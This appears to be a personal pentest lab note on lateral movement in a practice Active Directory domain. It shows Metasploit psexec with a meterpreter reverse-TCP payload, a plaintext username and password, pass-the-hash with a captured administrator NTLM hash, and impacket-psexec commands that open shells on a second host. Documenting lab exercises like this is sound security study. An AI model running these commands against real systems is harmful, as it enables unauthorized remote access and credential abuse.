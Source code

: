 # Metasploit psexec

>[!Note] Disadvantage
>This module is very noicy and might be picked up by some IDS.

psexec info:
> This module uses a valid administrator username and password (or password hash) to execute an arbitrary payload.
```msfconsole
use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.0.0.11
set RHOSTS 10.0.0.19
set SMBDomain MARVEL.local
set SMBUser frank
set SMBPass Password1
```

If the "Automatic" target doesn't work, we can also try other targets ("Native upload" works best?):
![[Pasted image 20240313135401.png]]

Exploitation successful:
![[Pasted image 20240313135758.png]]

## Login with NTLM hash instead of password

Login as administrator:
```msfconsole
unset SMBDomain
set SMBUser administrator
```

Copy the administrator NTLM hash "aad3b4...:7facdc..." previously captured via ntlmrelay.
![[Pasted image 20240313145050.png]]
Note: The first hash is the NT hash, the second hash is the LM hash.

```msfconsole
set SMBPass aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
```

>[!Note] Password reuse
> In our lab the user "administrator" uses the same password on THEPUNISHER as the user "administrator" does on SPIDERMAN.
> Thus, we can use the captured "administrator" NTLM hash on SPIDERMAN to also login as "administrator" on THEPUNISHER.

Exploit successful. We logged in as "administrator" on THEPUNISHER with the NTLM hash dumped from the SAM database on SPIDERMAN:
![[Pasted image 20240313152316.png]]
# impacket-psexec

Alternative to the metasploit module.
Get a shell as "frank" on THEPUNISHER (10.0.019):
```bash
impacket-psexec MARVEL/frank:'Password1'@10.0.0.19
```

We successfully got a shell:
![[Pasted image 20240313152723.png]]

Same thing but with NTLM hash (make sure to remove the domain name "MARVEL" or else it will fail):
```bash
impacket-psexec administrator@10.0.0.19 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
```

Success:
![[Pasted image 20240313165814.png]]

Alternative tools (in case impacket-psexec fails):
- impacket-wmiexec
- impacket-smbexec